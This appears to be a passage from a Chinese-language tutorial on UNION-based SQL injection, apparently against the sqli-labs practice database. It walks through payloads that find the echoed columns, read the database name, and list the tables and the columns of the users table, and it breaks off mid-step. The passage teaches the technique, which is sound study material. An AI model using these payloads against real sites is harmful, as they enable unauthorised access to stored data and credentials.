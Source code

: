 `id=-1' UNION SELECT 1,2,3 --+`

这时候可能我们的结果就会有所表示，比如

![QQ截图20241124192755.png](https://www.helloimg.com/i/2024/11/24/67430ca82cd42.png)

我们就会发现输出的只有2，3列，第一列不输出，说明2，3列是回显位

那么之后我们需要在2，3位注入代码才会返回结果

比如我们想知道它后端数据库的名字

`id=-1' UNION SELECT 1,2,database() --+`

![QQ截图20241124193228.png](https://www.helloimg.com/i/2024/11/24/67430dc35d01f.png)

其它可以使用的关键字

>version():查看数据库版本
>
>database():查看使用的数据库
>
>user():查看当前用户
>
>limit:limit子句分批来获取所有数据
>
>group_concat():一次性获取所有的数据库信息,将查询到结果连接起来成一行
>
>information_schema.tables:特殊表单，包含了数据库里所有的表名
>
>information_schema.tables:特殊表单，包含了数据库里所有的列名
>
>table_name:表名
>
>table_schema:数据库名
>
>column_name:字段名

#### 4.UNION爆表

输入

`?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+`

将返回security下的所有表单名字，猜测所有账号密码应该在users里面

![](https://img2020.cnblogs.com/blog/2075370/202010/2075370-20201001191039433-1928732598.png)

输入

`?id=-1' union select 1,2,group_concat(column_name)from information_schema.columns where table_name='users'--+`

返回users表单的所有列名id,password,username

输入
